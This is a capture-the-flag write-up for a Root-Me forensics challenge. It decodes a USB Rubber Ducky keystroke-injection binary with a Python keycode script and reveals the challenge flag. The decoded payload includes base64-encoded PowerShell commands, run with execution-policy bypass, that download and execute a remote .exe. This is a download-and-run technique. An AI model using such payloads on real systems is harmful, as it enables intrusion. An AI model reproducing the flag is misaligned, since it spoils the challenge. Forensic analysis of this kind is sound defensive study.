




# Ugly Duckling

## Challenge Details

- Category: Forensics
- Points: 25
- Validation: 7792
- Author: eilco
- Status: TODO
# Handout
`Ugly Duckling`
`The CEO’s computer seems to have been compromised internally. A young trainee dissatisfied with not having been paid during his internship arouse our supsicion. A strange USB stick containing a binary file was found on the trainee’s desk. The CEO relies on you to analyze this file.`
https://static.root-me.org/forensic/ch14/ch14.zip
## Walkthrough
Judging by that challenge description, we are probably dealing with a usb rubber ducky keystroke injection file. Let's unzip:

```bash
$ unzip -l ch14.zip
Archive:  ch14.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
     2004  2017-04-24 11:39   file.bin
---------                     -------
     2004                     1 file
```

`file`, `strings`, and all:

```bash
$ file file.bin
file.bin: data

$ strings -a -el file.bin
8$&#    $"
$$##"
#"#"#
'"!"
!"!!7
d$&#    $"
$$##"
#"#"#
'"!"
!"!!7
```

Nothing useful here, but that is to be expected, a ducky bin file would contain the raw usb hid codes; Opening it in a hex editor, I spotted a few which matched the usb hid code range, so this is most definitely the right path:



From the official documentation: https://documentation.hak5.org/hak5-usb-rubber-ducky/ducky-script-basics/hello-world

This is indeed the compiled keycode form, using the same usb hidcodes, with structure: `keycode, modifier` as 2 byte chunks.
We can reuse the keycode implementation from `ringzer0/Forensics/Spy my girl`:

Mappings and solve script by chunking in groups of 2 bytes:

```python
normal = {
    0x04:'a',0x05:'b',0x06:'c',0x07:'d',0x08:'e',0x09:'f',
    0x0a:'g',0x0b:'h',0x0c:'i',0x0d:'j',0x0e:'k',0x0f:'l',
    0x10:'m',0x11:'n',0x12:'o',0x13:'p',0x14:'q',0x15:'r',
    0x16:'s',0x17:'t',0x18:'u',0x19:'v',0x1a:'w',0x1b:'x',
    0x1c:'y',0x1d:'z',

    0x1e:'1',0x1f:'2',0x20:'3',0x21:'4',0x22:'5',
    0x23:'6',0x24:'7',0x25:'8',0x26:'9',0x27:'0',

    0x28:'<ENTER>\n',
    0x29:'<ESC>',
    0x2a:'<BACKSPACE>',
    0x2b:'\t',
    0x2c:' ',

    0x2d:'-',0x2e:'=',0x2f:'[',0x30:']',0x31:'\\',
    0x33:';',0x34:"'",0x35:'`',0x36:',',0x37:'.',0x38:'/',

    0x4f:'<RIGHT>',0x50:'<LEFT>',0x51:'<DOWN>',0x52:'<UP>',0x64:'\\'
}

shifted = {
    0x04:'A',0x05:'B',0x06:'C',0x07:'D',0x08:'E',0x09:'F',
    0x0a:'G',0x0b:'H',0x0c:'I',0x0d:'J',0x0e:'K',0x0f:'L',
    0x10:'M',0x11:'N',0x12:'O',0x13:'P',0x14:'Q',0x15:'R',
    0x16:'S',0x17:'T',0x18:'U',0x19:'V',0x1a:'W',0x1b:'X',
    0x1c:'Y',0x1d:'Z',

    0x1e:'!',0x1f:'@',0x20:'#',0x21:'$',0x22:'%',
    0x23:'^',0x24:'&',0x25:'*',0x26:'(',0x27:')',

    0x28:'\n',
    0x29:'<ESC>',
    0x2a:'<BACKSPACE>',
    0x2b:'\t',
    0x2c:' ',

    0x2d:'_',0x2e:'+',0x2f:'{',0x30:'}',0x31:'|',
    0x33:':',0x34:'"',0x35:'~',0x36:'<',0x37:'>',0x38:'?',

    0x4f:'<RIGHT>',0x50:'<LEFT>',0x51:'<DOWN>',0x52:'<UP>',
}

modnames = {
    0x01:'LCTRL',
    0x02:'LSHIFT',
    0x04:'LALT',
    0x08:'LGUI',
    0x10:'RCTRL',
    0x20:'RSHIFT',
    0x40:'RALT',
    0x80:'RGUI',
}

data = open("file.bin", "rb").read()

flag = ""

for i in range(0, len(data) - 1, 2):
    k = data[i]     
    mod = data[i + 1] 


    if k == 0x00:
        continue

    if mod == 0xff: #xxd showed ff mod fillers
        continue

    shift = mod & 0x22   

    othermods = [
        name for bit, name in modnames.items()
        if mod & bit and bit not in (0x02, 0x20)
    ]

    if shift:
        c = shifted.get(k, normal.get(k, f"<{k:02x}>"))
    else:
        c = normal.get(k, f"<{k:02x}>")

    if c == "<BACKSPACE>":
        flag = flag[:-1]
        continue

    if othermods:
        flag += "<" + "+".join(othermods) + "+" + c.strip("<>") + ">"
    else:
        flag += c

print(flag)
```

```bash
$ python3 solve.py
<LCTRL+ESC>iexplore http://challenge01.root-me.org/forensic/ch14/files/796f75277665206265656e2054524f4c4c4544.jpg<ENTER>
<LCTRL+s><ENTER>
<LCTRL+ESC>%USERPROFILE%\Documents\796f75277665206265656e2054524f4c4c4544.jpg<ENTER>
                                                        <ENTER>
<DOWN><DOWN><DOWN><DOWN><ENTER>
<DOWN><DOWN><ENTER>
powershell Start-Process powershell -Verb runAsPowerShell -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAJwBoAHQAdABwADoALwAvAGMAaABhAGwAbABlAG4AZwBlADAAMQAuAHIAbwBvAHQALQBtAGUALgBvAHIAZwAvAGYAbwByAGUAbgBzAGkAYwAvAGMAaAAxADQALwBmAGkAbABlAHMALwA2ADYANgBjADYAMQA2ADcANgA3ADYANQA2ADQAMwBmAC4AZQB4AGUAJwAsACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AApowershell -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAGMAbwBtACAAcwBoAGUAbABsAC4AYQBwAHAAbABpAGMAYQB0AGkAbwBuACkALgBzAGgAZQBsAGwAZQB4AGUAYwB1AHQAZQAoACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AAoAexit
```

And there's our injection! So it's opening an image at http://challenge01.root-me.org/forensic/ch14/files/796f75277665206265656e2054524f4c4c4544.jpg: 


The file name seems like it's in range for ascii, let's decode that as well:

```bash
$ echo 796f75277665206265656e2054524f4c4c4544 | xxd -r -p
you've been TROLLED
```

Hilarious. The rubberducky after the images runs 2 powershell commands and then exits, let's see what each of the encoded exec commands are doing:

```bash
$ echo aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAJwBoAHQAdABwADoALwAvAGMAaABhAGwAbABlAG4AZwBlADAAMQAuAHIAbwBvAHQALQBtAGUALgBvAHIAZwAvAGYAbwByAGUAbgBzAGkAYwAvAGMAaAAxADQALwBmAGkAbABlAHMALwA2ADYANgBjADYAMQA2ADcANgA3ADYANQA2ADQAMwBmAC4AZQB4AGUAJwAsACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AA | base64 -di

iex (New-Object System.Net.WebClient).DownloadFile('http://challenge01.root-me.org/forensic/ch14/files/666c61676765643f.exe','666c61676765643f.exe');

$ echo aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAGMAbwBtACAAcwBoAGUAbABsAC4AYQBwAHAAbABpAGMAYQB0AGkAbwBuACkALgBzAGgAZQBsAGwAZQB4AGUAYwB1AHQAZQAoACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AAoA | base64 -di

iex (New-Object -com shell.application).shellexecute('666c61676765643f.exe');

```

So downloading `666c61676765643f.exe` and running it. File name is again suspiciously in ascii range:

```bash
$ echo 666c61676765643f  | xxd -r -p
flagged?
```

Sense of humour. Let's download the exe:

```bash
$ wget http://challenge01.root-me.org/forensic/ch14/files/666c61676765643f.exe
$ file 666c61676765643f.exe
666c61676765643f.exe: PE32+ executable for MS Windows 5.02 (console), x86-64, 17 sections
```

It's not stripped, that's always a good sign, let' open it in ida.








And there's our flag in a messagebox object made by the main function! I guess it would've just given us the flag on running the exe, would've been fun if it was an actual malware delivery ducky, but hey.
# FLAG
RubberDuckyFail3D
